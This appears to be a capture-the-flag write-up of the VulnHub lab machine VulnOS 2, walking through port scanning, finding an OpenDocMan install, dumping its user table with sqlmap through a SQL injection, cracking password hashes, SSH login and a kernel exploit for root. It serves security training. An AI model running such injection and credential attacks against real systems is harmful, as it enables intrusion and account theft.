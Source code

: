 ```yaml
---
title: Vuln OS
categories: [VulnHub]
tags: [opendocman, Sqlmap, Kernel Exploit, Public Exploit, PrivEsc]
image:
  path: https://i0.wp.com/steflan-security.com/wp-content/uploads/2021/01/VulnOS-2.png?fit=1024%2C409&ssl=1
  alt: VulnOS Machine 💻
---
```


## **Description ⤵️**

>💡 [VulnOS](https://www.vulnhub.com/entry/vulnos-2,147/) are a series of vulnerable operating systems packed as virtual images to enhance penetration testing skills
<br><br>
- This is version 2 -
<br><br>
- Smaller, less chaotic !
<br><br>
As time is not always on my side, It took a long time to create another VulnOS. But I like creating them. The image is build with VBOX. Unpack the file and add it to your virtualisation software.
<br><br>
**Your assignment is to pentest a company website, get root of the system and read the final flag**
<br><br>
NOTE : current keyboard preferences is BE "pentesting is a wide concept"
<br><br>
If you have questions, feel free to contact me on m4db33f@gmail dot com Shout out to the Vulnhub Testing team!
<br><br>
Hope you enjoy.
{: .prompt-info }

### Let’s find the IP Address first >>

```
{: .nolineno}
IP : 192.168.56.104
```
{: .nolineno}

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled.png)

```bash
Open Ports >
22			SSH
80			HTTP
6667		irc
```
{: .nolineno}

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%201.png)

**After roming around I found Documentation page blank so I seen the source code and found this :**

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%202.png)

Lets check the source code of this page →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%203.png)

I got a directory named as `/jabcd0cs/` →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%205.png)

After trying to upload the shell I can not able to bypass mime-type and If I have then also I can not able to launch me shell .

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%206.png)

Now After seeing this exploit of opendocman I got some inside about SQLi and lets try it out now :

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%207.png)

Lets take the help of sqlmap on it →

```bash
command : 
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dump
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%208.png)

```bash
command : 
sqlmap -u "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" -D jabcd0cs -T odm_user --dump
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2010.png)

Lets crack these hashes →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2011.png)

```bash
Now I have credentials :

webmin:b78aae356709f8c31118ea613980954b : webmin1980

guest:084e0343a0486ff05530df6c705c8bb4 : guest

admin:d5c6a61719d7da181397b6db2376c2e7
```
{: .nolineno}

Now lets try SSH login through webmin →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2012.png)

Now lets check for configuration files `/var/www/html/jabcd0cs/config.php` →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2013.png)

Its time to use linpeas so :

I Found this vulnerability :

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2014.png)

Now I searched the weak link and I found that This OS is outdated so I found this :>

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2015.png)

Now lets use this exploit and try it out →

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/VulnOS/Untitled%2017.png)
<br><br>

---